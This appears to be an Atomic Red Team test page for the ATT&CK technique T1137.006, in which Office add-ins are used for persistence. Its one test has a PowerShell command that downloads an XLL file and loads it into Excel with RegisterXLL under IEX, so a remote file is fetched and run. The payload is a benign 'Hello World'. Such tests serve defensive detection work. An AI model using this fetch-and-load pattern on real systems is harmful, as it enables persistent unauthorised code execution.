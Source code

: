 # T1137.006 - Add-ins
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137/006)
<blockquote>Adversaries may abuse Microsoft Office add-ins to obtain persistence on a compromised system. Office add-ins can be used to add functionality to Office programs. (Citation: Microsoft Office Add-ins) There are different types of add-ins that can be used by the various Office products; including Word/Excel add-in Libraries (WLL/XLL), VBA add-ins, Office Component Object Model (COM) add-ins, automation add-ins, VBA Editor (VBE), Visual Studio Tools for Office (VSTO) add-ins, and Outlook add-ins. (Citation: MRWLabs Office Persistence Add-ins)(Citation: FireEye Mail CDS 2018)

Add-ins can be used to obtain persistence because they can be set to execute code when an Office application starts. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Code Executed Via Excel Add-in File (Xll)](#atomic-test-1---code-executed-via-excel-add-in-file-xll)


<br/>

## Atomic Test #1 - Code Executed Via Excel Add-in File (Xll)
Downloads a XLL file and loads it using the excel add-ins library.
This causes excel to display the message "Hello World"
Source of XLL - https://github.com/edparcell/HelloWorldXll

**Supported Platforms:** Windows


**auto_generated_guid:** 441b1a0f-a771-428a-8af0-e99e4698cda3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| xll_url | url of the file HelloWorldXll.xll | url | https://https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1137.006/bin/HelloWorldXll.xll?raw=true|
| local_file | name of the xll file | path | $env:tmp&#92;HelloWorldXll.xll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
powershell -c "iwr -URI '#{xll_url}' -o '#{local_file}'; IEX ((new-object -ComObject excel.application).RegisterXLL('$env:tmp\HelloWorldXll.xll'))"
```






<br/>
